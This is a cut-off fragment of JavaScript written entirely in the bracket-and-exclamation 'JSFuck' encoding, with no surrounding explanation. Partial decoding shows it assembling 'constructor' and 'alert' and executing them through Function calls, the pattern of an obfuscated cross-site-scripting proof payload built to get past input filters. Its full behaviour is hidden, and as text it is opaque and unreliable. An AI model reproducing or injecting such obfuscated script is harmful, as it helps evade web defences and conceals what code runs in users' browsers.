[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][[]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[!+[]+!+[]]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+([][[]]+[])[+[]]+([][[]]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[+!+[]]]+(!+[]+!+[]+[!+[]+!+[]+!+[]+!+[]+!+[]+!+[]+!+[]])+[])+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[+[]]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+([][[]]+[])[+[]]+([][[]]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[+!+[]])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]])()([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[!+[]+!+[]+[+!+[]]]+[!+[]+!+[]+!+[]+!+[]]+(![]+[])[+!+[]])+[!+[]+!+[]+!+[]+!+[]+!+[]]+(+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(+(+!+[]+[+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]+!+[]+!+[]])[+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+[+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+[+!+[]])+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]])[+!+[]+[+!+[]]]+([][[]]+[])[+[]]+([][[]]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(![]+[])[!+[]+!+[]]]+[])[!+[]+!+[]+!+[]]+(![]+[])[+!+[]]+(+(!+[]+!+[]+[+!+[]]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]]